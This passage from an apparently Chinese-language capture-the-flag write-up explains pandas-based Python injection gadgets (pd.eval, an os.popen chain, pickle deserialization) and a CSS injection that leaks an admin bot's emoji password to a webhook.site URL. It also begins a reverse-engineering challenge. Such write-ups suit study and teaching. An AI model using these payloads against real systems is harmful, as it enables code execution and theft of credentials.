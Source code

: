 这些 payload 按照 source 可以分为利用 `@` 调用上下文中存在的函数或变量和利用字面量两种，而按照 sink 又可分为直接通过 `os.system()` ， `os.popen()` 等直接利用和通过 pickle 利用两类，限制比较少，利用方式很多非常灵活。大多数利用方式都比较常见，下面对 pandas 的利用做一些记录。

##### pd.eval:

通过官方文档（https://pandas.pydata.org/pandas-docs/stable/reference/api/pandas.eval.html#pandas.eval）我们可以发现它跟 python 的内置 eval 差不多，在接受 expr 参数的同时也支持设置 `globals` 和 `locals`。不同的是，pandas 在性能的考量下还实现了自己的 parser 和 engine，但是我们可以将这两个参数都设置成 `'python'` 来运行 builtin 的 eval。

##### pd.io.common.os:

其实这个算不上对于 pandas 的利用，只是通过 pandas 造了一个链去获取 `os`，类似的 gadget 还有很多，比如：`'+(@pd.core.config_init.os.popen('calc').read())+'`

![](https://imgur.com/yYTtOQx.png)

##### pd.read_pickle:

这个其实是对于 pickle 反序列化漏洞的利用，可以在 pandas 的源码（https://github.com/pandas-dev/pandas/blob/v1.5.3/pandas/io/pickle.py#L189）中看到，这个函数其实就是对于 `pickle.load` 的一个封装，可以利用现有的 pickle exp 进行利用

### Emo-Locker:

审计源代码，发现存在CSS注入漏洞

```javascript
this.setState((prevState) => {
    let href = `https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/${
        window.location.hash.replace("#", '')
    }-mode.css`;
    prevState.link_obj.href = href;
    return {}
});
```

通过构造形如`#../../gh/thezzisu/assets/public/css/902.css?`的hash可以注入我们可控的CSS文件。

观察到在点击emoji图标后，对应的`<span>`会被清空。使用CSS伪选择器`:empty`配合设置background-img即可向可控的url发送请求。

使用的payload如下：

```javascript
span[aria-label="1"]:empty {
  background-image: url("https://webhook.site/0b13d0cd-8f43-472c-98ac-de23aba8b2c2/?img=1");
}
/* multiple repeated items... */
```

即可获取admin bot输入的emoji密码内容，使用用户名admin即可登录并在返回的HTTP Response Header中获得flag。

## Reverse:

### lowkeyEnc:

读取文件后，先对明文做了两次AES256 CBC加密，随后每一位与索引进行异或，最后根据密文生成图片
